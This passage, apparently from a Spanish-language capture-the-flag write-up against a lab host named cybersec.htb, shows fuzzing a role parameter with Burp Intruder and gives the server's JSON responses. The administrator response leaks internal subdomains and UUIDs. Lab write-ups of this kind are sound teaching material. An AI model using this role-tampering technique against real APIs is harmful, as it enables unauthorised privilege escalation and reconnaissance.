 ```bash
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

Despues cargamos el diccionario como **simpleLists** y despues le damos en **StratAttack**:
Como resultado tenemos dos repuestas con codigo de estado **200OK**
Uno con **Role: user**
```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Fri, 20 Jun 2025 22:14:41 GMT
Content-Type: application/json
Content-Length: 237
Connection: close

{
  "company": {
    "address": "New York, EEUU",
    "name": "CyberSec Corp",
    "phone": "+1322302450134200",
    "services": "Auditorias de seguridad, Pentesting, Consultoria en ciberseguridad"
  },
  "message": "Acceso permitido"
}
```

**Role: administrator**
```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Fri, 20 Jun 2025 22:14:42 GMT
Content-Type: application/json
Content-Length: 781
Connection: close

{
  "company": {
    "URLs_web": "cybersec.dl, soc_internal_operations.cybersec.dl, bin.cybersec.dl, mail.cybersec.dl, dev.cybersec.dl, cybersec.htb/downloads, internal-api.cybersec.dl, 0internal_down.cybersec.dl, internal.cybersec.dl, cybersec.htb/documents, cybersec.htb/api/cpu, cybersec.htb/api/login",
    "UUID": "f47ac10b-58cc-4372-a567-0e02b2c3d479, df7ac10b-58mc-43fx-a567-0e02b2r3d479",
    "address": "New York, EEUU",
    "branches": "Brazil, Curacao, Lithuania, Luxembourg, Japan, Finland",
    "customers": "ADIDAS, COCACOLA, PEPSICO, Teltonika, Toray Industries, Weg, CURALINk",
    "name": "CyberSec Corp",
    "phone": "+1322302450134200",
    "services": "Auditorias de seguridad, Pentesting, Consultoria en ciberseguridad"
  },
  "message": "Acceso permitido"
}
```

Del administrador tenemos varios subdominios:
```bash
   "URLs_web": "cybersec.dl, soc_internal_operations.cybersec.dl, bin.cybersec.dl, mail.cybersec.dl, dev.cybersec.dl, cybersec.htb/downloads, internal-api.cybersec.dl, 0internal_down.cybersec.dl, internal.cybersec.dl, cybersec.htb/documents, cybersec.htb/api/cpu, cybersec.htb/api/login"
```
